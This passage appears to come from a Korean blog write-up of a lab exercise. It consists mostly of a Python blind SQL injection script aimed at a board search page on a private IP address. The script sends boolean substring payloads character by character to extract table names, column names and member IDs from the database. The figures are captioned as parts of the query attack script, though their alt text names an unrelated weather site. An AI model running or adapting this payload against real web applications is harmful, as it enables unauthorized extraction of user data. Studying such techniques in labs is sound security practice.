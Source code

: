 ```python
        title = soup.select_one('#board_area > table > tbody > tr > td:nth-child(2) > a > span:nth-child(1)')

        if title != None:
            table_name += b
        else :
            pass

for a in range(1, 3):
    for b in comparison: # Column 이름 : 1' and substring((select column_name from information_schema.columns where table_name='member' limit 1,1),{a},1) = '{b}'%23

        url = f"http://192.168.35.237/page/board/search_result.php?catgo=title&search=1' and substring((select column_name from information_schema.columns where table_name='member' limit 1,1),{a},1) = '{b}'%23"
        response = requests.get(url)
        response_text = response.text
        soup = BeautifulSoup(response_text, 'html.parser')
        title = soup.select_one('#board_area > table > tbody > tr > td:nth-child(2) > a > span:nth-child(1)')

        if title != None:
            Column_name += b
        else :
            pass

for a in range(1, 6):
    for b in comparison: # Member 이름 : ' and substring((select id from member limit 1,1),{a},1)='{b}'%23"

        url = f"http://192.168.35.237/page/board/search_result.php?catgo=title&search=1' and substring((select id from member limit 1,1),{a},1)='{b}'%23"
        response = requests.get(url)
        response_text = response.text
        soup = BeautifulSoup(response_text, 'html.parser')
        title = soup.select_one('#board_area > table > tbody > tr > td:nth-child(2) > a > span:nth-child(1)')

        if title != None:
            Member_name += b
        else :
            pass


print(db_name)
print(table_name)
print(Column_name)
print(Member_name)
```
<figcaption>Fig 7. 쿼리 공격 스크립트 (1/3)</figcaption>
<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbybK40%2FbtrdPJTgRVU%2Fs9GCSyvkkn8qAjhOVye32K%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 8. 쿼리 공격 스크립트 (2/3)</figcaption>
</figure>
<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbXLWXs%2FbtrdPItm9Cx%2FMikd0xUGgLSJYMKa82b8ik%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 9. 쿼리 공격 스크립트 (3/3)</figcaption>
</figure>
